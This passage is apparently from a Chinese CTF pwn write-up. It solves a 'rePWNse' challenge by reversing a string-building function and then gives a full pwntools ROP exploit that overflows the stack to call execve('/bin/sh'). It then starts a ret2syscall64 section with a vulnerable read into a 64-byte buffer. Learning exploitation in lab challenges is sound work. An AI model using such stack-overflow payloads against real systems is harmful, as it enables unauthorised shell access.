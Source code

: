 由makebinsh函数名可以看出这个函数能产生一个/bin/sh字符串，而read函数引发栈溢出，思路清晰

跟进makebinsh函数看看，发现是一堆if else和一堆字符串处理的函数。判断条件是一个线性方程组

解出来发现程序合成/bin/sh所需的七个数字是1919810，之后它会输出/bin/sh字符串的地址

函数框里面还有一个action函数

```c
int __fastcall action(const char *a1)
{
  return execve(a1, 0LL, 0LL);
}
```

栈溢出到gadget传参并返回到这里，搭配合成的字符串拿下shell

PWNer也得提升逆向水平，会读屎山代码。

```python
from pwn import *

p = process("./rePWNse")

p.recvuntil("digits:")
p.sendline(b"1")
p.sendline(b"9")
p.sendline(b"1")
p.sendline(b"9")
p.sendline(b"8")
p.sendline(b"1")
p.sendline(b"0")
p.recvuntil("is:0x")
binsh = p.recv(8).decode("utf-8")
binsh = binsh[:-1]
print("addr_hex:",binsh)
binsh = int(binsh,16)
print("int:",binsh)

pop_rdi = 0x40168E
backdoor = 0x401296

payload = b"a" * 0x40 + b"deadbeef" + p64(pop_rdi) + p64(binsh) + p64(backdoor)
p.sendafter("want?", payload)

p.interactive()
```





## ret2syscall64

这是一道ret2syscall的模板题，题目名以及输出已经暗示了这一点

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Can you make a syscall?");
  read(0, buf, 0x100uLL);
  return 0;
}
```
